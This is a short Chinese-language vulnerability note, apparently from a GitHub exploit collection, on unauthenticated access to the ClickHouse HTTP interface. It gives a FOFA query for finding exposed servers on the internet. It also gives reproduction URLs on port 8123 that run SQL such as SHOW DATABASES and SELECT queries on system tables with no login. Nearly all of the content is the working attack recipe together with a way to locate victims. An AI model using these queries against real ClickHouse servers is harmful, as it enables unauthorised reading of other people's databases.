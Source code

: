 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## FOFA

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](./images/202202091258079.png)

执行SQL语句

![img](./images/202202091258245.png)

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](./images/202202091258274.png)

其他的SQL语句：

```
http://your-ip:8123/?query=SHOW%20DATABASES
```

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.tables
```

